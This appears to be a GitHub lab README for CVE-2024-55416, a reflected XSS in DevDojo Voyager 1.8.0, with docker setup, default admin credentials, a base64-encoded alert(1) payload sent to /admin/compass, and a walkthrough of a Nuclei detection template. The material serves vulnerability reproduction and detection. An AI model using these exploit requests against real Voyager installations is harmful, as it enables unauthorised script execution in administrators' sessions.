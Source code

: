 # CVE-2024-55416: DevDojo Voyager <=1.8.0 - Reflected Cross-Site Scripting

## Description:
DevDojo Voyager through version 1.8.0 is vulnerable to reflected XSS via /admin/compass. By manipulating an authenticated user to click on a link, arbitrary Javascript can be executed.

## Reference:
- https://nvd.nist.gov/vuln/detail/CVE-2024-55416
- https://www.sonarsource.com/blog/the-tainted-voyage-uncovering-voyagers-vulnerabilities/

## Vulnerable Setup

- Execute the following commands to start a Laravel Voyager 1.8.0 server:

```
docker compose up -d
```

- After the server is started, browse to http://your-ip:8000 to see the Laravel Voyager admin panel. This server requires authentication.

## Default Login   

Username: admin@admin.com

Password: password

# Exploitation Steps

- Navigate to your URL http://your-ip:8000/admin

- Enter the Default Credentials (admin@admin.com/password) as shown below.

![image](https://github.com/user-attachments/assets/7935b0f8-1966-44c9-9d35-21a8aac72e41)

- Navigate to Tools -> Compass in the Dashboard.

![image](https://github.com/user-attachments/assets/dd38f215-48e5-4aa5-81c0-7cb711d5881f)

- Send a `GET` request to the `/admin/compass?del=` Delete endpoint with base64 encoded XSS Payload.

```bash
Payload: PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPi5sb2c=
```

![image](https://github.com/user-attachments/assets/96ed0bf2-ec25-4967-a257-416c955d62bc)

- Observe the XSS get triggered at `admin/compass?logs=true` Endpoint.

![image](https://github.com/user-attachments/assets/c6826159-f20d-4d00-8289-4793e9292481)

# Steps to Write Nuclei Template

**Variables Section**

```yaml
variables:
  username: "admin@admin.com"
  password: "password"
```

- Defines the login credentials (username and password) as variables, which can be reused in requests.

**First Request: Retrieve CSRF Token**

```yaml
  - raw:
      - |
        GET /admin/login HTTP/1.1
        Host: {{Hostname}}

    extractors:
      - type: regex
        part: body
        internal: true
        name: csrf
        group: 1
        regex:
          - 'name="_token" value="([a-zA-Z0-9]+)"'
```

- Sends a GET request to /admin/login to retrieve the login page.
- Extracts the CSRF token (_token) from the response body using a regular expression.
- Stores the extracted value in an internal variable named csrf for later use.

**Second Request: Perform Login**

```yaml
  - raw:
      - |
        POST /admin/login HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        _token={{csrf}}&email={{username}}&password={{password}}&

    matchers:
      - type: dsl
        dsl:
          - "contains(body,'/admin</title>')"
          - "status_code == 302"
        condition: and
        internal: true
```

- Sends a POST request to `/admin/login` with:
  - Extracted `_token`
  - Username and password from the variables

- The matchers validate a successful login by checking:
  - The response body contains `</admin</title>` (indicating admin page access).
  - The response has a `302` status code, indicating a successful login and redirection.

**Third Request: Exploit Potential XSS**

```yaml
  - raw:
      - |
        GET /admin/compass?del=PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPi5sb2c= HTTP/1.1
        Host: {{Hostname}}

    redirects: false
    matchers:
      - type: dsl
        dsl:
          - "contains(location,'/admin/compass')"
          - "status_code == 302"
        condition: and
        internal: true
```

- Sends a `GET` request to `/admin/compass?del=PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPi5sb2c=` (Base64 payload that could trigger a stored XSS or file deletion).
- Checks if the server redirects to `/admin/compass` with a 302 status code, indicating the payload was processed.

**Fourth Request: Verify XSS**

```yaml
  - raw:
      - |
        GET /admin/compass?logs=true HTTP/1.1
        Host: {{Hostname}}

    matchers:
      - type: dsl
        dsl:
          - "contains(body,'Successfully deleted log file: <img src=x onerror=alert(1)>.log')"
          - "status_code == 200"
        condition: and
```

- Sends a `GET` request to `/admin/compass?logs=true` to check if logs were successfully deleted.
- Looks for the phrase: "Successfully deleted log file: <img src=x onerror=alert(1)>.log" (indicating stored XSS via log deletion).
- Ensures the response status is `200` OK.

**Nuclei Template URL** : [CVE-2024-55416](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-55416.yaml)

## Nuclei Command :

```bash
nuclei -t CVE-2024-55416.yaml -u http://172.30.0.2:8000 -vv
```

![image](https://github.com/user-attachments/assets/4a5873cc-520a-43a9-b97a-3c6082dccfe1)
